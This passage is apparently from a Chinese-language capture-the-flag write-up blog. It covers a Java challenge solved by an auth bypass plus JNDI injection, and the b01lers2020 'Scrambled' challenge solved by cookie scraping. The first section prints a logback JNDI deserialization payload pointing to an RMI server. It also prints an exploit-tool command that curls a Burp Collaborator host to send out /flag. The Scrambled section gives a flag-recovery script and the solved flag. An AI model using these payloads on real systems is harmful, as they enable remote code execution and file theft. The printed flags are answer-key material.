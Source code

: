 与强网拟态的Jack-Shiro等等题都是一样的考点，首先是一个/;/json绕过鉴权，之后是jndi注入，用那个jar一把梭

```json
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"rmi://101.35.114.107:1099/qhx0ip"}]
```

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "curl http://mg6uynla2pxa8ilgp4cprm0suj09oy.burpcollaborator.net/ -F file=@/flag" -A "101.35.114.107"
```

{{% /spoiler %}}

{{% spoiler "[b01lers2020]Scrambled" %}}

页面上只有一个油管视频，没有特殊的行为

抓包看到cookie，在每一次reload（在页面底部）之后都会更新

![image-20220118163951941](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220118163951941.png)

两个字段，frequency和transmissions

没明白啥意思，看wp知道这里是代表了每一位flag的值，比如上面图片里的

```
7-12	-> 12位是`-` 前一位是`7`
0f15	-> 15位是`f` 前一位是`0`
```

整个py脚本自动（参考[wp](https://blog.csdn.net/weixin_44037296/article/details/112549815)

```
import requests
import re

url = 'http://a3197079-a7bd-4d2f-847b-bad3410130b7.node4.buuoj.cn:81/'
headers = {'Cookie': 'frequency=1; transmissions=kxkxkxkxsh7-12kxkxkxkxsh'}
flag = [0] * 50

while True:
    r = requests.session()
    cookie = r.get(url, headers=headers).headers['Set-Cookie']  # 得到下一次的cookie
    try:
        tmp = re.search(r'kxkxkxkxsh(.+)kxkxkxkxsh;', cookie).group()[10:-11]   # 匹配中间有用的部分
        flag[int(tmp[2:])] = tmp[1:2]
        flag[int(tmp[2:]) - 1] = tmp[0:1]
        for i in flag:
            print(i, end='')
        print()
    except:
        pass
```

flag{3e6d8ee7-40f1-40a1-b496-93c40f43c8b8}

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2020]Roamphp4-Rceme" %}}
